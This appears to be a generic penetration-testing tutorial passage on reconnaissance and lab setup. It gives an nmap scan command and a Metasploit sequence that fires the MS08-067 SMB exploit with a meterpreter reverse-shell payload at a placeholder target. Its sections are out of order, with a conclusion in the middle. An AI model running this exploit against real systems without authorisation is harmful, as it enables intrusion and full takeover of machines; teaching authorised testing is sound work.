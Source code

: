 Gathering information about the target system or network is a critical step in penetration testing. This information can help you identify potential vulnerabilities and weaknesses in the system or network. Here are some key steps to follow when gathering information about the target:

1. Perform reconnaissance: Perform reconnaissance to gather information about the target, such as IP addresses, open ports, and operating systems.

2. Use automated tools: Use automated tools, such as vulnerability scanners and network analyzers, to gather information about the target.

3. Analyze the target: Analyze the information gathered about the target to identify potential vulnerabilities and weaknesses.

In conclusion, preparing for penetration testing is a critical step in ensuring a successful and ethical testing experience. By setting up a testing lab, defining the scope of the testing, considering legal and ethical considerations, and gathering information about the target, you can conduct safe and effective penetration testing.Selecting a suitable hardware and software environment is crucial for successful penetration testing. Here are some tips for selecting the right environment:

1. Identify the target system or network: Before selecting a hardware and software environment, you need to identify the target system or network. This will help you choose an environment that closely resembles the target.

2. Consider the operating system: If the target system runs on a specific operating system, you should choose an environment that runs on the same OS. This will help you test the system more accurately.

3. Choose the right hardware: The hardware you choose should be similar to the target system in terms of processing power, memory, and storage. This will help you test the system more accurately.

Once you have selected a suitable hardware and software environment, you can start using various tools and commands to perform penetration testing. Here are some examples:

1. Nmap: Nmap is a popular tool used for network exploration and security auditing. It can be used to scan networks and identify open ports, services, and operating systems. Here's an example command:

```
nmap -sS -sV -O target_ip
```

This command will perform a SYN scan (-sS) and version detection (-sV) on the target IP address. It will also attempt to identify the operating system (-O).

2. Metasploit: Metasploit is a powerful framework for penetration testing and exploitation. It can be used to test vulnerabilities and launch attacks against target systems. Here's an example command:

```
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOST target_ip
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

This command will launch the MS08-067 vulnerability exploit against a target Windows system. It will create a reverse TCP connection to the attacker's machine, giving the attacker full control over the target.
